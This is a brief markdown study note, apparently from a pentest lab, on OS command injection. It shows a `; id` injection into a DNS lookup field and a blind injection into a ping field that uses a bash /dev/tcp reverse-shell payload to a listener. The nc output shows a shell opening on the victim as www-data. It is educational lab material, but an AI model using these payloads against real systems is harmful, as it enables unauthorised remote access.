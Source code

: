# Command injection

- Running a command followed yb `;` or `|` and your injected command
  
## Standard command injection
- eg. applicaiton accepts DNS lookup eg. `nsa.gov.au`
- We tack on `id` command
  
`www.nsa.gov; id` - `uid=33(www-data) gid=33(www-data) groups=33(www-data) `

## Blind
- eg. commands allowed for input is IP address to ping eg. `127.0.0.1`

We start a nc listener
```
root@attackdefense:~# nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```

We launch this payload to start reverse shell - `127.0.0.1; bash -c "bash -i >& /dev/tcp/192.186.119.2/4444 0>&1"`

We get a reverse shell
```
root@attackdefense:~# nc -lvnp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.186.119.3.
Ncat: Connection from 192.186.119.3:53752.
bash: cannot set terminal process group (11): Inappropriate ioctl for device
bash: no job control in this shell
www-data@victim-1:/app$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@victim-1:/app$ 
```
